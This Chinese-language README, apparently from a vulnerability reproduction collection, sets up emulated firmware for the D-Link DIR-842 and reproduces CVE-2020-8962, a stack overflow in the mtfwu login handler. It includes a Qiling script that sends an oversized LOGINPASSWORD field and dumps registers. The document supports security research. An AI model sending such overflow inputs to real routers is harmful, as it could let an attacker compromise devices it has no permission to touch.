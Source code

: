# D-Link DIR-842 路由器缓冲区溢出漏洞（CVE-2020-8962）


## 漏洞环境

需要解密固件，方法是开启一个 `qemu-user-static` 容器，使用 qemu-mips-static 运行 DIR842C1_FW302b03_middle.bin 的 `usr/sbin/encimg` 程序对 DIR842C1_FW313WWb05.bin.org 进行解密，得到 DIR842C1_FW313WWb05.bin。

```sh
$ docker run --privileged --rm -v $PWD/firmware:/root/firmware -it firmianay/qemu-user-static /bin/bash
$ ./qemu-mips-static -L . ./usr/sbin/encimg ./DIR842C1_FW313WWb05.bin.org

# 98868352a4913aee2d2da4acd8e1a04e  DIR842C1_FW302b03_middle.bin
# c40930278051bbf66f24a657676dd5b4  DIR842C1_FW313WWb05.bin
# ae141c12535cae08e49e4876410ebb9d  DIR842C1_FW313WWb05.bin.org
```

本目录下对固件已经是解密版本，可以直接使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR842C1_FW313WWb05.bin"
```

```sh
$ docker-compose -f docker-compose-firmadyne.yml build

# 启动环境，账号/密码 root/sohoadmin
$ docker-compose -f docker-compose-firmadyne.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it dlink-firmadyne /bin/bash
```

## 漏洞复现

## Exploit

```py
from qiling import *

def my_syscall_sysinfo(ql, sysinfo_info, *args, **kwargs):
    ql.mem.write(sysinfo_info, b"AAAA") # uptime
    regreturn = 0
    ql.nprint("sysinfo(0x%x) = %d" % (sysinfo_info, regreturn))
    ql.os.definesyscall_return(regreturn)

# dump all registers
def dump_reg(ql, *args, **kwargs):
    for idx, val in ql.reg.save().items():
        if not isinstance(idx, int):
            print(idx, ":", hex(val))
            
    breakpoint()

class Fake_stdin:
    def read(self, size, *args, **kwargs):
        return b'ACTION=login&LOGINPASSWORD=' + b'A' * 0x248

    def fileno(self, *args, **kwargs):
        return 0

if __name__ == "__main__":

    envs = {
            "REQUEST_METHOD": "POST",
            "REQUEST_URI": "/MTFWU",
            "CONTENT_TYPE": "application/x-www-form-urlencoded",
            "HTTP_MTFWU_ACT": "Login",
            "HTTP_COOKIE": "uid=AAAA",
            "CONTENT_LENGTH": str(27+0x248), 
            }

    ql = Qiling(["squashfs-root/usr/sbin/mtfwu"], "squashfs-root", 
                output="default",
                env=envs,           # setting environment variables 
                stdin=Fake_stdin()) # hijack stdin with Fake_stdin
                
    ql.set_syscall("sysinfo", my_syscall_sysinfo)  # syscall hook for sysinfo
    ql.set_syscall("_newselect", lambda *_: None)  # hook syscall _newselect with anonymous NOP function to avoid manual input requirement
    ql.hook_address(dump_reg, 0x41db40)            # breakpoint before return and dump all register
    ql.run()
```

## 参考链接

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8962
- https://ctrsec.io/index.php/2020/02/12/cve-2020-8962-d-link-dir-842-stack-based-buffer-overflow/
- https://ucgjhe.github.io/post/cve_2020_8962/
